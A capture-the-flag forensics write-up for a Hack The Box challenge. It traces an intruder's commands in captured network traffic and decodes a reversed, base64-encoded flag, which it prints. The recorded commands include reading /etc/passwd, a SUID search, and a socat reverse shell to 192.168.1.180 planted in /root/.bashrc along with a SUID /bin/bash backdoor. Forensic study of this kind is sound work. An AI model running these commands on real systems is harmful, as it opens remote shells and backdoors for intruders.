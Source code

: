 # WRONG-SPOOKY-SEASON

## FLAG: HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}

## Status: Complete

+ DOCKER: NO
+ DOWNLOADABLE: YES

Description: "I told them it was too soon and in the wrong season to deploy such a website, but they assured me that theming it properly would be enough to stop the ghosts from haunting us. I was wrong." Now there is an internal breach in the `Spooky Network` and you need to find out what happened. Analyze the the network traffic and find how the scary ghosts got in and what they did.

## NOTES

1. In the pcap file we see the 'scary ghosts' enable/install socat to portforward and ultimately get RCE with bash (see No. 464 in pcap file)

2. Now analyzing the bash commands in the pcap file (PSH) we see the folowing in chronological order:

    cmd = id
    response = uid=0(root) gid=0(root) groups=0(root)

    cmd = groups
    response = root

    cmd = uname -r
    response = 5.18.0-kali7-amd64

    cmd = cat /etc/passwd
    response =  root:x:0:0:root:/root:/bin/bash
                daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
                bin:x:2:2:bin:/bin:/usr/sbin/nologin
                sys:x:3:3:sys:/dev:/usr/sbin/nologin
                sync:x:4:65534:sync:/bin:/bin/sync
                games:x:5:60:games:/usr/games:/usr/sbin/nologin
                man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
                lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
                mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
                news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
                uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
                proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
                www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
                backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
                list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
                irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
                gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
                nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
                _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
                messagebus:x:101:102::/nonexistent:/usr/sbin/nologin

    cmd = find / -perm -u=s -type f 2>/dev/null
    response =  /bin/su
                /bin/umount
                /bin/mount
                /usr/lib/dbus-1.0/dbus-daemon-launch-helper
                /usr/lib/openssh/ssh-keysign
                /usr/bin/newgrp
                /usr/bin/chfn
                /usr/bin/gpasswd
                /usr/bin/passwd
                /usr/bin/chsh

    cmd = echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash

    cmd = ls -lha
    response =  total 20K
                drwxr-xr-x 1 root root 4.0K Oct 10 17:28 .
                drwxr-xr-x 1 root root 4.0K Oct 10 17:28 ..
                -rwxrwx--- 1 root root 1.8K Oct  8 00:04 pom.xml
                drwxr-xr-x 3 root root 4.0K Oct 10 17:27 src
                drwxr-xr-x 1 root root 4.0K Oct 10 17:28 target

3. In here we see the command ran 'echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash'

4. Let's reverse the string
5. echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev
      1. RESULTS: "SFRCe2o0djRfNXByMW5nX2p1c3RfYjNjNG0zX2o0djRfc3AwMGt5ISF9Cg=="

6. Try and base64 decode that string

7. 'echo "SFRCe2o0djRfNXByMW5nX2p1c3RfYjNjNG0zX2o0djRfc3AwMGt5ISF9Cg==" | base64 -d'
   1. RESULTS: "HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}"
